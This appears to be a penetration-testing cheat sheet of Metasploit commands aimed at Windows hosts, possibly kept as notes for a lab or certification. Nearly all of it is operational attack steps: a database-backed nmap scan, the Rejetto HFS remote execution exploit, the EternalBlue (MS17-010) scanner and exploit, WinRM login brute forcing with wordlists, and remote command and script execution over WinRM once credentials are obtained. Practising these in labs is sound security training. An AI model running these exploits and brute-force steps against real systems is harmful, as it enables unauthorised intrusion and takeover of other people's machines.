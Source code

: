 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>
db_nmap -sS -sV -O <TARGET_IP>
# db_nmap -sS -sV -O -p- <TARGET_IP>

# For every exploit, check 'options' and 'info', setup accordingly
```

#### HFS

```bash
# HFS
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
```

#### SMB

```bash
# SMB
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

#### WINRM

```bash
# WinRM
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Launch command
search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME <USER>
set PASSWORD <PW>
set CMD whoami

search winrm_script
use exploit/windows/winrm/winrm_script_exec
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
```
